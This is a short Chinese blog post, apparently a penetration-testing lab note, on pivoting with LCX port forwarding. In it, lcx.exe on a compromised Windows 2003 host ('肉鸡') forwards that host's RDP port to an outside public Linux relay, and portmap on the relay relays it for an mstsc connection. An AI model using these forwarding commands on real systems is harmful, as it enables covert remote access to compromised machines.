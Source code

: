 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
    - 内网渗透
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

### 实验环境
    win2003  （肉鸡）
    公网linux  （转发机器）
    本机   （攻击机）

### 过程记录


* 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
`lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
>将本机的3389端口转发到45.77.43.77的2222端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

* 在公网的linux机器上执行命令<br>
`./portmap -m 2 -p1 2222 -p2 55`
>监听本地的2222端口，并将其数据转发到55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

* 在本机使用mstsc连接45.77.43.77的55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

### 连接成功

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)


